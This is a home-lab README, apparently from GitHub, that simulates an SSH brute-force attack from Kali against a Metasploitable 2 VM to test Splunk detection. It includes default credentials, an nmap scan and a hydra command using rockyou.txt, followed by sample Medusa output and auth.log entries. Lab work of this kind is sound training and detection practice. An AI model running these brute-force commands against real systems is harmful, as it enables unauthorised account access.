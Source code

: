 # 🔓 SSH Brute-Force Attack Scenario

This scenario simulates a brute-force SSH attack from Kali Linux against a vulnerable Metasploitable 2 target. It's used to generate logs, test Splunk detection, and understand attack behavior.

## 🎯 Target
- IP: `192.168.x.x` (Metasploitable VM)
- Service: OpenSSH
- Port: 22
- Default creds: `msfadmin:msfadmin`

## 🛠️ Tools Used
- `hydra`
- `nmap`
- `wireshark` or `tcpdump` (optional)

## 🔍 Steps
1. Confirm SSH is open:
   ```bash
   nmap -p 22 192.168.x.x
   ```

2. Launch brute-force attack with Hydra:
   ```bash
   hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.x.x
   ```

3. Monitor logs or traffic with:
   ```bash
   wireshark
   ```

## 📝 Notes
- Successful brute-force attempt should be visible in:
  - Splunk SSH logs
  - Wireshark TCP streams
  - Metasploitable's `/var/log/auth.log` (if accessible)

## 🧠 Learning Points
- Observe timing, connection attempts, and delays
- Analyze how brute-force behavior appears in logs
- Use data for detection rules or alerts in Splunk
  
---

## 📸 Brute-Force Output & Logs

### ✅ Medusa Output

```
ACCOUNT CHECK: [ssh] Host: 192.168.68.59 (1 of 1, 0 complete)
Password: kenken (2297 of 14344391 complete)
Password: skyblue (2305 of 14344391 complete)
...
```

*Medusa cycling through passwords from rockyou.txt*

### 🔒 Metasploitable Log Sample

```
sshd[5960]: Failed password for msfadmin from 192.168.68.58 port 38605 ssh2
sshd[5961]: Failed password for msfadmin from 192.168.68.58 port 38612 ssh2
sshd[5962]: Failed password for msfadmin from 192.168.68.58 port 38618 ssh2
```

*Metasploitable showing failed SSH login attempts from Kali*

---

### 🖼️ Screenshot

![Brute-force demo](medusa-ssh-brute.png)

*A full view of Kali attacking while Metasploitable logs real-time SSH failures*
